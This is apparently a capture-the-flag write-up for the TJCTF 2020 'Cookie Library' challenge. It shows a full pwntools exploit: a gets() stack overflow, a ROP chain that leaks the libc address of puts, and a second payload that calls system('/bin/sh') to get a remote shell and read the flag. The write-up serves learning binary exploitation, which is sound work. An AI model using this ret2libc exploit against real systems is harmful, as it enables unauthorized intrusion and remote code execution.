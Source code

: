 # TJCTF 2020

## Cookie Library

> 90
>
> My friend loves [cookies](cookie). In fact, she loves them so much her favorite cookie changes all the time. She said there's no reward for guessing her favorite cookie, but I still think she's hiding something.
> 
> `nc p1.tjctf.org 8010`
>
> Written by KyleForkBomb

Tags: _pwn_ _x86-64_ _buf_ _remote-shell_ _rop_ _libc_


## Summary

Leak libc address and version, return to `main` for a second exploit, get a shell, get the flag.

> This is annoyingly similar to [stop](../stop/README.md), so _stop_ and read that.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Some mitigations.  !GOT.  No shellcode.  But, we have ROPtions (no PIE).  Stack left wide open, too.

> Yes, annoyingly old jokes too.

    
### Decompile with Ghidra

![](main.png)

With the name of the challenge _cookie_ and `srand` right there at the top I thought this was going to be a homebrew canary, or at least a conditional based on a predictable PRNG.  Given how this is pretty much the same as [stop](../stop/README.md), but for more points, it makes me wonder if someone messed up.

Anyway, line 22, our old friend `gets` will get the job done.  No loop, so again, return to main.

`local_58` is `0x58` bytes above the return address:

```
             undefined8        RAX:8              <RETURN>
             undefined4        Stack[-0xc]:4      local_c
             undefined1        Stack[-0x58]:1     local_58
```

Both attacks will write out `0x58` bytes to get to the return address.


## Exploit

### Attack Plan

1. Leak libc address and version and return to main
2. Get a shell, get the flag


### Leak libc address and version and return to main

```python
#!/usr/bin/python3

from pwn import *

#p = process('./cookie')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('p1.tjctf.org', 8010)
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')

binary = ELF('./cookie')

context.clear(arch='amd64')
rop = ROP('cookie')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Which is the most tasty?\n')

payload  = b''
payload += 0x58 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])

p.sendline(payload)
p.recvline()
_ = p.recv(6)
```

Since there's no PIE we do not need to worry about leaking the base process address.  All we need is a `pop rdi` gadget and have `puts` emit its own address.

After sending `0x58` bytes to get to the return address, we just pop the address of `puts` from the GOT, then call `puts` to emit it, and then return to main for a second run.

With the `puts` address leaked (`_ = p.recv(6)`) we can search for the version using the [libc-database](https://github.com/niklasb/libc-database) `find` command with the last three nibbles of the `puts` address:

```
# libc-database/find puts 0x9c0 | grep -v 386
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
```

Then rerun with:

```
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
```

to then leak the base address of libc:

```
puts = u64(_ + 2*b'\x00')
print('puts:',hex(puts))
baselibc = puts - libc.symbols['puts']
print('baselibc:',hex(baselibc))
```

> You'll know you got this right if the last three digits of the libc address is all zeros.  See output below.


### Get a shell, get the flag

```python
p.recvuntil('Which is the most tasty?\n')

payload  = b''
payload += 0x58 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b"/bin/sh")))
payload += p64(baselibc + libc.symbols['system'])

p.sendline(payload)
p.interactive()
```

> The extra `ret` (`payload += p64(pop_rdi + 1)`) is required to align the stack, see [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) for a lengthly example and explanation.

For the second pass, align the stack, pop the address of the string `/bin/sh` from libc, and then _return_ to `system` to get a shell:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8010: Done
[*] '/pwd/datajerk/tjctf2020/cookie/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/tjctf2020/cookie/cookie'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'cookie'
puts: 0x7f6b52bfe9c0
baselibc: 0x7f6b52b7e000
[*] Switching to interactive mode
I'm sorry but we can't be friends anymore
$ cat flag.txt
tjctf{c00ki3_yum_yum_mmMmMMmMMmmMm}
```